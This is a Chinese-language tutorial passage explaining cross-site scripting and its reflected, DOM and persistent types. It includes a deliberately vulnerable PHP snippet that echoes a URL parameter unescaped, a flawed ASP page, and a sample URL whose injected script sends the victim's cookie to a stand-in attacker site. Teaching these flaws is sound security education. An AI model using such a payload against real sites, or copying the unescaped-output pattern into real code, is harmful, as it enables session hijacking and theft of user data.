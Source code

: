 ## A07 重点四：Cross-Site Scripting，XSS（跨站脚本攻击）

> 跨站脚本攻击（Cross Site Scripting），为不和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS。

由于 WEB 应用程序 **对用户的输入过滤不足** 而产生的。攻击者 **利用网站漏洞把恶意的脚本代码注入到网页中**，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

XSS 主要分为三类：

- 反射型 XSS（后端）
- DOM XSS（前端）
- 持久型 XSS

**反射型 XSS**

通常来说，服务端的代码存在 XSS 漏洞，例如：

```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>
```

该代码直接从 url 参数中获取 `name` 字段，但如果 `name` 字段是精心构造的攻击代码呢？就很容易攻击者利用。

因此，攻击者可以精心构造攻击 URL，但仍然需要用户点击该 URL 才行，因此通常来说攻击者通过电子邮件等方式给别人发送带有恶意脚本代码参数的 URL，服务器端解析后响应，XSS 代码随响应内容一起传回给浏览器，最后浏览器解析执行 XSS 代码。

**DOM XSS**

DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据。

Tom 发现了 Victim.com 中的一个页面有 XSS 漏洞，

例如: http://victim.com/search.asp?term=apple

```html
<html>
  　　<title
  ></title>
  　　
  <body>
    　　　　Results for <%Reequest.QueryString("term")%> 　　　　... 　　
  </body>
</html>
```

Tom 先建立一个网站http://badguy.com, 用来接收“偷”来的信息。
然后 Tom 构造一个恶意的 url(如下), 通过某种方式(邮件，QQ)发给 Monica

```
http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
```
